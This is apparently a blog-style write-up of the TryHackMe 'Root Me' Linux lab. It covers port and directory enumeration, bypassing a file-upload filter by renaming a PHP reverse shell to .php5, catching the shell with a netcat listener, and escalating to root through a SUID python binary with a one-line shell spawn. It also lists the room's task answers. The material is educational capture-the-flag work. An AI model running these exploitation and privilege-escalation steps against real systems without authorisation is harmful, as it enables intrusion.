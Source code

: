 ```yaml
---
title: THM Root Me - Writeup
description: Easy Linux Machine
date: 2025-03-05
image: cover.png
categories:
  - Writeups
tags:
  - Easy
  - Linux
  - THM
---
```

Let's start with a fast scan, i normally use rustscan to gather the open ports faster:
```sh
rustscan --top -a <victim_ip> | tee initialScan.txt
```
![Image 1](1.png)
once it's finished, i copy the open ports and scan them with nmap looking out for the versions of the services hosted in those ports
```sh
 sudo nmap -sC -sV -p<ports> <ip> -oN targeted
```
![Image 2](2.png)
Now, the scan shows that the machine is hosting a web server with Apache, we can take a look at the directories the website has with gobuster
```sh
gobuster dir -t 45 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://<ip>/
```
![Image 3](3.png)
### Task 2 
    How many ports are open? 2

    What version of Apache is running? 2.4.29

    What service is running on port 22? SSH

	What is the hidden directory? /panel/

### User Flag
Visiting the website shows us this 
![Image 4](4.png)
and going to the /panel route shows a file upload page
![Image 5](5.png)
There's an arbitrary file upload vulnerability in this page, allowing us to upload a maliciously crafted php file that we can use to upload and execute a reverse shell, you can use this shell from pentestmonkey
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

![Image 6](6.png)

But php is not allowed to be uploaded, we can bypass this validation changing the file extension to be php5

![Image 7](7.png)

Then start a listener with netcat:
```sh
nc -lvnp 4242
```
navigate to the route where your file is uploaded, for example: /uploads/shell.php5
and you got the shell

![Image 8](8.png)

Once obtained the shell, let's find the flag and get it!
```sh
find / -name user.txt 2>/dev/null
cat /var/www/user.txt
```
### Root Flag
Find binaries with SUID permissions that allow users to execute the binary with the permissions of the owner of the file, rather than the user who runs the command (most of the times is root).
```sh
find / -perm -4000 2>/dev/null
```

And look at that, python? Let's check what user is the owner of the binary
```
ls -la /usr/bin/python
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
```
Sweet! it's root. You can use gtfobins to look for info about a binary you can possibly use to escalate privileges:
https://gtfobins.github.io/gtfobins/python/
![Image 9](10.png)
 we can execute a oneliner to spawn a shell as root and obtain the final flag
```sh
/usr/bin/python -c 'import os; os.execl("/bin/sh","sh","-p")'
```

![Image 10](9.png)

```sh
cat /root/root.txt
```
and you got the root flag!!

### Conclusion
This machine covers topics like Arbitrary File Uploads and exploiting binaries with SUID permissions to escalate privileges.


<mark>Hope you enjoyed it and Happy Hacking!</mark>